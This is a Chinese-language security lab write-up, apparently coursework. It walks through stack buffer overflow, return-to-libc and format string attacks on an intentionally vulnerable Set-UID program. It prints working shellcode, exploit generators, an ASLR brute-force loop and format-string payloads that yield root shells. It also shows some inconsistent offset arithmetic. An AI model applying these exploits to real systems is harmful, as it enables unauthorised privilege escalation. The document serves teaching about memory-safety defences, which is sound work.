    /* 1. 在 offset 处写入目标返回地址（小端序）*/
    long *ptr = (long *)(buffer + offset);
    *ptr = ret;

    /* 2. 将 shellcode 放在 buffer 末尾 */
    int shellcode_len = sizeof(shellcode) - 1;  // 去掉末尾 \0
    memcpy(buffer + (517 - shellcode_len), shellcode, shellcode_len);

    /* 3. 写入 badfile */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);

    printf("[+] badfile created!\n");
    printf("[+] ret address = 0x%lx\n", ret);
    printf("[+] offset = %d\n", offset);
}
```

### 步骤 4：执行攻击
```bash
cd ~/auxiliary/bufferoverflow

# 编译 exploit（不需要 execstack 或 stack-protector）
gcc -m32 -o exploit exploit.c

# 运行 exploit 生成 badfile
./exploit

# 运行漏洞程序（Set-UID root）
./stack

# 如果成功，会得到 root shell：
whoami
# root
id
# uid=1000(seed) gid=1000(seed) euid=0(root) groups=...
```

> 

### 步骤 5：获得真正的 root 进程
在得到的 shell 中执行：
```bash
# 进入 root shell 后
id
# uid=1000(seed) euid=0(root) — euid 是 root

# 将真实 uid 也变为 root（完整 root）
# 在 shell 中执行以下程序
python3 -c 'import os; os.setuid(0); os.execl("/bin/zsh", "/bin/zsh")'
id
# uid=0(root) gid=... — 完整 root
```

> 

### 内存布局图
```
badfile 内容（517 字节）

偏移 0                                             偏移 517
[====NOP (0x90)====][RET ADDR][==NOP==][SHELLCODE]
 ^                   ^                  ^
 buffer[0]         offset=36          517-len(shellcode)
```

## Task 3.5 — 绕过 dash 的防护措施

### 问题描述
将 `/bin/sh` 恢复指向 `/bin/dash`，dash 检测到 `real UID ≠ effective UID` 时会自动降权。

### 步骤 1：恢复 /bin/sh 指向 /bin/dash
```bash
sudo ln -sf /bin/dash /bin/sh
ls -la /bin/sh
# /bin/sh -> /bin/dash
```

> 

### 步骤 2：验证 dash 的防护（实验 dash_shell_test）
```c
/* dash_shell_test.c */
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
    char *argv[2];
    argv[0] = "/bin/sh";
    argv[1] = NULL;

    // setuid(0);  // 先注释掉
    execve("/bin/sh", argv, NULL);
    return 0;
}
```

```bash
gcc -m32 dash_shell_test.c -o dash_shell_test
sudo chown root dash_shell_test
sudo chmod 4755 dash_shell_test

# 测试 1：setuid(0) 注释掉
./dash_shell_test
# $ whoami -> seed（dash 降权了，不是 root）
# $ exit
```

> 

取消注释 `setuid(0);` 后重新编译：
```bash
gcc -m32 dash_shell_test.c -o dash_shell_test
sudo chown root dash_shell_test && sudo chmod 4755 dash_shell_test
./dash_shell_test
# # whoami -> root（setuid(0) 使 dash 不再降权）
```

>   


### 步骤 3：更新 shellcode（添加 setuid(0) 调用）

新 shellcode 在 execve 之前调用 `setuid(0)`（syscall 号 0xd5 = 213）：

```c
char shellcode[] =
    // === 新增：setuid(0) ===
    "\x31\xc0"             /* xorl %eax,%eax              */
    "\x31\xdb"             /* xorl %ebx,%ebx   (arg: 0)   */
    "\xb0\xd5"             /* movb $0xd5,%al   (setuid)   */
    "\xcd\x80"             /* int  $0x80                  */
    // === 原来的 execve("/bin/sh") ===
    "\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80"
;
```

将上述新 shellcode 替换进 `exploit.c`，重新编译并执行攻击：
```bash
# 使用新 shellcode 重新生成 exploit
gcc -m32 -o exploit exploit_dash.c
./exploit   # 生成 badfile
./stack     # 发起攻击
# # whoami
# root       ← 即使 /bin/sh 指向 dash，也成功获得 root
```

> 

### 原理说明
`setuid(0)` 将进程的真实 UID 也设置为 0，此时 `real UID == effective UID == 0`，dash 的检查条件不满足，不再降权。

## Task 3.6 — 绕过地址随机化（ASLR）

### 步骤 1：启用 ASLR
```bash
sudo sysctl -w kernel.randomize_va_space=2
cat /proc/sys/kernel/randomize_va_space
# 2
```

> 

### 步骤 2：执行之前的攻击，观察失败
```bash
./exploit   # 生成 badfile（使用之前固定的返回地址）
./stack     # 攻击
# Segmentation fault（段错误，攻击失败）
# 程序可能输出：Returned Properly（也表示攻击失败）
```

> 

**失败原因：** ASLR 每次运行时随机化栈基址，导致 buffer 的实际地址每次不同，我们硬编码的返回地址不再正确。

### 步骤 3：暴力破解（利用 NOP sled 增大命中概率）

更新 exploit，使用更大的 NOP sled 增加命中概率：

**暴力破解脚本：**
```bash
#!/bin/bash
# brute_force.sh
SECONDS=0
value=0
while [ 1 ]
do
    value=$(( $value + 1 ))
    duration=$SECONDS
    min=$(($duration / 60))
    sec=$(($duration % 60))
    echo "$min minutes and $sec seconds elapsed."
    echo "The program has been running $value times so far."
    ./stack
done
```

```bash
chmod +x brute_force.sh
./exploit   # 先生成 badfile
bash brute_force.sh
# 等待一段时间，直到随机地址恰好命中 NOP sled
```

> 

### 预期结果
- 32位系统的栈随机化只有约 2^15 = 32768 种可能（低16位变化），加上 NOP sled，平均需要几分钟
- 最终会出现 `#` 提示符（root shell）

### 地址随机化的防护效果分析
- **对 32 位系统：** 随机化空间较小（约 2^15），暴力破解可行
- **对 64 位系统：** 随机化空间为 2^28+，暴力破解不可行
- **防护意义：** 极大提高攻击成本，配合其他保护措施效果更佳

## Task 3.7 — StackGuard 保护

### 步骤 1：关闭 ASLR，开启 StackGuard 重新编译
```bash
sudo sysctl -w kernel.randomize_va_space=0

# 不加 -fno-stack-protector 标志（即启用 StackGuard）
gcc -m32 -DBUFSIZE=24 -o stack -z execstack stack.c
sudo chown root stack
sudo chmod 4755 stack
```

### 步骤 2：执行攻击
```bash
./exploit   # 生成 badfile
./stack     # 发起攻击
```

> 

### StackGuard 工作原理

```
高地址
+------------------+
|  返回地址 (RA)   |
+------------------+
|  保存的 ebp      |
+------------------+
|  Canary 值       |  ← 由编译器插入（随机值）
+------------------+
|  buffer[0..23]   |
+------------------+
低地址
```

1. 函数**进入时**：编译器在 buffer 和 saved ebp 之间插入一个随机的 canary 值
2. 函数**返回前**：检查 canary 值是否被修改
3. 如果 canary 被溢出修改：输出警告并终止程序

**结论：** StackGuard 能有效检测缓冲区溢出，但攻击者如果能泄漏 canary 值，仍然可能绕过。

## Task 3.8 — 不可执行栈保护（NX/DEP）

### 步骤 1：启用不可执行栈重新编译
```bash
# 关闭 ASLR，关闭 StackGuard，但启用不可执行栈（-z noexecstack）
gcc -m32 -DBUFSIZE=24 -o stack -z noexecstack -fno-stack-protector stack.c
sudo chown root stack
sudo chmod 4755 stack
```

### 步骤 2：执行之前的攻击
```bash
./exploit   # 使用之前的 exploit（shellcode 在栈上）
./stack
```

> 

### 预期输出
```
Segmentation fault (core dumped)
```

### 不可执行栈工作原理
- CPU 提供的 **NX（No-eXecute）位**（Intel 称为 XD 位，AMD 称为 EVP）
- 操作系统通过页表为栈内存页设置 **NX 标志**
- 当 CPU 试图执行标记为 NX 的内存页中的代码时，触发**访问违例异常**（段错误）

### 该保护的局限性
- **不可执行栈只阻止在栈上执行代码**，不能防止所有溢出攻击
- **Return-to-libc 攻击**（Task 4）就是针对此保护的绕过方法：跳转到已经在内存中的 libc 函数，而非注入的 shellcode

**结论：** NX/DEP 是有效的安全层，但不是万能的，需要与 ASLR、StackGuard 等组合使用。

---
<a id='task4'></a>
# Task 4: Return-to-libc 攻击

## 背景知识
Return-to-libc 攻击是绕过不可执行栈的技术：不注入 shellcode，而是将返回地址覆盖为 libc 中已有函数（如 `system()`）的地址，并伪造函数调用的栈帧，传入参数（如 `/bin/sh`）。

## Task 4.1 — 初始化设置

```bash
# 1. 关闭 ASLR
sudo sysctl -w kernel.randomize_va_space=0
cat /proc/sys/kernel/randomize_va_space   # 应为 0

# 2. /bin/sh 指向 zsh
sudo ln -sf /bin/zsh /bin/sh

# 3. 安装必要包
sudo apt update
sudo apt install gcc-multilib gdb zsh -y

# 4. 设置 MYSHELL 环境变量
export MYSHELL=/bin/sh
env | grep MYSHELL
# MYSHELL=/bin/sh
```

## Task 4.2 — 漏洞程序分析与编译

### 程序代码（auxiliary/return2libc/retlib.c）
```c
/* retlib.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#ifndef BUFSIZE
#define BUFSIZE 22
#endif

int bof(FILE *badfile)
{
    char buffer[BUFSIZE];
    fread(buffer, sizeof(char), 300, badfile);  // 读取 300 字节到 BUFSIZE 大小的缓冲区！
    return 1;
}

int main(int argc, char **argv)
{
    FILE *badfile;
    char dummy[BUFSIZE*5]; memset(dummy, 0, BUFSIZE*5);
    badfile = fopen("badfile", "r");
    bof(badfile);
    printf("Returned Properly\n");
    fclose(badfile);
    return 1;
}
```

### 编译
```bash
cd ~/auxiliary/return2libc

# 选择 BUFSIZE=24（与 Task 3 保持一致的随机值）
# 启用不可执行栈（-z noexecstack），关闭 StackGuard，关闭 PIE
gcc -m32 -DBUFSIZE=24 -no-pie -o retlib -z noexecstack -fno-stack-protector retlib.c
sudo chown root retlib
sudo chmod 4755 retlib
ls -l retlib
# -rwsr-xr-x 1 root ...

# 同时编译调试版本
gcc -m32 -DBUFSIZE=24 -no-pie -g -o retlib_dbg -z noexecstack -fno-stack-protector retlib.c
```

>   


## Task 4.3–4.5 — 漏洞利用

### 步骤 1：获取 system() 和 exit() 的地址

```bash
# 先创建 badfile（gdb 需要）
touch badfile

# 启动 gdb
gdb -q retlib_dbg
```

```
(gdb) break main
(gdb) run
(gdb) p system
# $1 = {<text variable, no debug info>} 0xf7dc98e0 <__libc_system>
(gdb) p exit
# $2 = {<text variable, no debug info>} 0xf7db85b0 <__GI_exit>
(gdb) quit
```

> 

记录这两个地址（示例值，实际运行时获取）：
- `system()` 地址：`0xf7dc98e0`
- `exit()` 地址：`0xf7db85b0`

### 步骤 2：获取 /bin/sh 字符串的地址

创建辅助程序（注意：文件名必须与 retlib 等长，即 6 个字符）：

```c
/* env555.c — 文件名 6 字符，与 retlib 相同长度 */
#include <stdio.h>
#include <stdlib.h>
void main(){
    char* shell = getenv("MYSHELL");
    if (shell)
        printf("MYSHELL address: 0x%x\n", (unsigned int)shell);
    else
        printf("MYSHELL not set!\n");
}
```

```bash
# 确保已设置 MYSHELL
export MYSHELL=/bin/sh

# 编译（文件名必须是 6 字符）
gcc -m32 -no-pie -o env555 env555.c
./env555
# 示例输出：MYSHELL address: 0xffffd11f
```

> 

记录 `/bin/sh` 地址：`0xffffd11f`（示例值）

### 步骤 3：确定栈偏移量 (X, Y, Z)

使用 gdb 分析 `bof()` 函数的栈帧：

```bash
gdb -q retlib_dbg
```

```
(gdb) break bof
(gdb) run
(gdb) next          # 执行 fread 一行
(gdb) print &buffer
# 示例：$1 = (char (*)[24]) 0xffffcd38
(gdb) info frame
# 查看：
# Stack frame at 0xffffd170:
#  Saved registers:
#   ebp at 0xffffcd58, eip at 0xffffcd5c
# 返回地址（eip）存储在 0xffffcd5c
(gdb) quit
```

> 

**计算偏移量：**
```
buffer 地址   = 0xffffcd38
saved ebp 地址 = 0xffffcd58
返回地址位置   = 0xffffcd5c

Y（system 地址的偏移）= 返回地址位置 - buffer地址
                      = 0xffffcd5c - 0xffffcd38 = 38

Z（exit 地址的偏移）  = Y + 4 = 42
   （exit 是 system 的返回地址，紧跟其后）

X（/bin/sh 地址的偏移）= Z + 4 = 46
   （/bin/sh 是传给 system() 的参数，位于 exit 返回地址之后）
```

### Return-to-libc 栈帧布局
```
高地址
+---------------------------+
| X: &"/bin/sh"  (X=46)    |  ← system() 的参数
+---------------------------+
| Z: exit() 地址  (Z=42)   |  ← system() 的返回地址
+---------------------------+
| Y: system() 地址 (Y=38)  |  ← 覆盖的返回地址
+---------------------------+
| saved ebp (4 bytes)       |
+---------------------------+
| buffer[0..23] (24 bytes)  |  ← BUFSIZE=24
+---------------------------+
低地址

注：从 buffer[0] 到返回地址 = 24（BUFSIZE）+ 4（saved ebp）= 28 字节
wait... 根据 gdb 实际偏移来确定，不要用计算值
```


### 步骤 4：完整的 exploit.c（C 版本，位于 auxiliary/return2libc/exploit.c）

```c
/* exploit.c — Return-to-libc 完整版 */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char buf[250];
    FILE *badfile;

    /* 用 0xaa 填充（非零，避免 strcpy 截断问题）*/
    memset(buf, 0xaa, sizeof(buf));

    badfile = fopen("./badfile", "w");

    /*
     * 地址说明（实际值通过 gdb 获取）：
     * system()  : 0xf7dc98e0
     * exit()    : 0xf7db85b0
     * /bin/sh   : 0xffffd147
     *
     * 偏移量说明：
     * Y = 38  → system() 的地址放在这里（覆盖 bof() 的返回地址）
     * Z = 42  → exit() 的地址放在这里（system() 的伪造返回地址）
     * X = 46  → /bin/sh 地址放在这里（system() 的第一个参数）
     *
     * 注意：三条语句的书写顺序与 X、Y、Z 顺序无关
     */

    *(long *) &buf[38] = 0xf7dc98e0;  /* system() 地址 */
    *(long *) &buf[42] = 0xf7db85b0;  /* exit() 地址   */
    *(long *) &buf[46] = 0xffffd147;  /* /bin/sh 地址  */

    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);

    printf("[+] badfile created!\n");
    return 0;
}
```

### 步骤 5：执行攻击
```bash
cd ~/auxiliary/return2libc

# 编译 exploit
gcc -m32 -no-pie -o exploit exploit.c

# Step 1：运行 exploit 生成 badfile，然后攻击
./exploit
./retlib
# # whoami
# root     ← 成功！
```

### Step 2：移除 exit() 地址
```bash
# 修改 exploit.c，将 exit() 那行替换为无效值：
# *(long *) &buf[44] = 0xdeadbeef;   // 无效地址
# 重新编译运行
gcc -m32 -no-pie -o exploit exploit_noexit.c
./exploit && ./retlib
# 预期：仍然获得 root shell，但退出时程序崩溃（Segmentation fault）
# 原因：system("/bin/sh") 返回后跳到 0xdeadbeef，导致段错误
```

### Step 3：重命名程序测试
```bash
# 重命名 retlib（长度改变）
cp retlib newretlib
sudo chown root newretlib && sudo chmod 4755 newretlib

# 不修改 badfile，直接运行
./newretlib
# 攻击失败！原因：程序名长度变化影响环境变量在栈上的位置
# MYSHELL 的地址会偏移 (len("newretlib") - len("retlib")) * (-4) 字节
# 需要重新运行 env555（或同长度的 envabc）来获取新地址
```

## Task 4.6 — 地址随机化对 Return-to-libc 的影响

```bash
# 开启 ASLR
sudo sysctl -w kernel.randomize_va_space=2

# 使用之前的 badfile 攻击
./exploit   # 生成 badfile（使用固定地址）
./retlib
# Segmentation fault 或 zsh: no such file or directory
```

> 

**失败原因分析：**
- ASLR 开启后，libc 加载地址每次随机化
- `system()` 和 `exit()` 的地址每次都不同
- 环境变量 `MYSHELL` 的栈地址也随机化
- 三个关键地址全部失效，攻击必然失败

**与普通缓冲区溢出攻击的区别：**
- 普通溢出：只需猜中栈上的 shellcode 地址（32位可暴力破解）
- Return-to-libc：需要同时猜中 libc 基址 + 栈地址，更困难

## Task 4.7 — StackGuard 对 Return-to-libc 的影响

```bash
# 关闭 ASLR，开启 StackGuard（移除 -fno-stack-protector）
sudo sysctl -w kernel.randomize_va_space=0
gcc -m32 -DBUFSIZE=24 -no-pie -o retlib -z noexecstack retlib.c
sudo chown root retlib && sudo chmod 4755 retlib

./exploit && ./retlib
# *** stack smashing detected ***: terminated
```

> 

**StackGuard 仍然有效：** 虽然 Return-to-libc 不执行注入的代码，但溢出过程仍然会覆盖 canary 值，StackGuard 在函数返回前检测到 canary 被修改，直接终止程序。

---

<a id='task5'></a>
# Task 5: 格式化字符串漏洞

## 背景知识
`printf(user_input)` 中，如果 `user_input` 由用户控制且包含 `%` 格式符，`printf` 会从栈上读取额外的参数，造成信息泄漏或内存写入。

## 漏洞程序说明

程序 `vul_prog.c` 的关键代码：
```c
secret = (int *) malloc(2*sizeof(int));
secret[0] = 0x44;   // SECRET1
secret[1] = 0x55;   // SECRET2
// ...
scanf("%s", user_input);  // 读取用户输入
printf(user_input);       // 漏洞：直接将用户输入作为格式字符串！
```

程序运行时会打印出各变量地址，我们利用这些地址进行攻击。

### 编译与设置
```bash
cd ~/auxiliary/stringformat

# 注意：格式字符串漏洞是 32 位问题，保持 m32 编译
# 关闭 ASLR 简化实验
sudo sysctl -w kernel.randomize_va_space=0

# 编译为 Set-UID root（按题目要求）
gcc -m32 -o vul_prog vul_prog.c
sudo chown root vul_prog
sudo chmod 4755 vul_prog
```

### 运行程序获取地址
```bash
./vul_prog
```
示例输出：
```
The variable 'secret' address is 0xffffce10 (on stack)
The variable 'secret' value is 0x5655a1a0 (on heap)
secret[0]'s address is 0x5655a1a0 (on heap)
secret[1]'s address is 0x5655a1a4 (on heap)
Please enter a decimal integer
```

> 

**关键地址记录（示例值）：**
- `&secret`（栈上）= `0xffffce10`
- `secret`（堆地址）= `0x5655a1a0`
- `secret[0]` 地址 = `0x5655a1a0`
- `secret[1]` 地址 = `0x5655a1a4`

## Task 5.1 — 崩溃程序

### 目标
通过格式字符串漏洞让程序产生段错误（Segmentation Fault）。

### 原理
`printf` 在处理 `%s` 时，会从栈上取出一个值作为字符串的地址，然后尝试读取该地址的内容。如果该地址是无效的内存，则触发段错误。

### 操作步骤
```bash
./vul_prog
```

在 `Please enter a decimal integer` 时输入：
```
1
```

在 `Please enter a string` 时输入（使程序崩溃的格式字符串）：
```
%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s
```

**或者更简单：**
```
%s%s%s%s%s
```

### 完整命令
```bash
echo -e "1\n%s%s%s%s%s%s%s%s" | ./vul_prog
```

> 

### 预期输出
```
...
Please enter a decimal integer
Please enter a string
Segmentation fault (core dumped)
```

### 原理说明
```
printf("%s%s%s...") 
↓
printf 从栈上依次取地址，解引用为字符串
↓
某个地址指向不可访问内存
↓
Segmentation Fault
```

## Task 5.2 — 读取 secret[1] 的值

### 目标
利用格式字符串漏洞读取 `secret[1]`（值为 `0x55`，位于堆上 `0x5655a1a4`）。

### 策略
程序打印了 `secret[1]` 的地址（`0x5655a1a4`）。
`scanf("%d", &int_input)` 会将整数存在栈上。
我们将 `secret[1]` 的地址作为整数输入（`scanf("%d")` 读取十进制），使该地址出现在栈上，
然后格式字符串用 `%x` 不断消费栈上的值，直到遇到我们输入的地址，再用 `%s` 读取该地址的内容。

### 步骤

**第一步：确定需要多少个 `%x` 才能到达 int_input**
```bash
# 用 %x 探测栈内容
echo -e "12345\n%x.%x.%x.%x.%x.%x.%x.%x" | ./vul_prog

ffffce18.0.565561f4.0.3e8.3e8.ffffcf54.5655a1a0
# 在输出中找到 0x3039（即 12345 的十六进制）的位置，可见 0x3039 是第 9 个 %x
```

> 

**第二步：将 secret[1] 地址作为整数输入**

`secret[1]` 地址 `0x5655a1a4` 转为十进制 = `1448452516`

**第三步：构造攻击**

```bash
# secret[1] 地址的十进制值
echo -e "1448452516\n%9\$s" | ./vul_prog
```

> 

### 预期输出
```
...
U         ← 0x55 对应的 ASCII 字符 'U'，即 secret[1] = 0x55
The original secrets: 0x44 -- 0x55
The new secrets: 0x44 -- 0x55
```

### 调试技巧：确定 %x 数量
```bash
# 用一个容易识别的整数（如 0xdeadbeef = 3735928559）测试
echo -e "3735928559\n%x.%x.%x.%x.%x.%x.%x.%x.%x.%x" | ./vul_prog
# 在输出中找 deadbeef 的位置
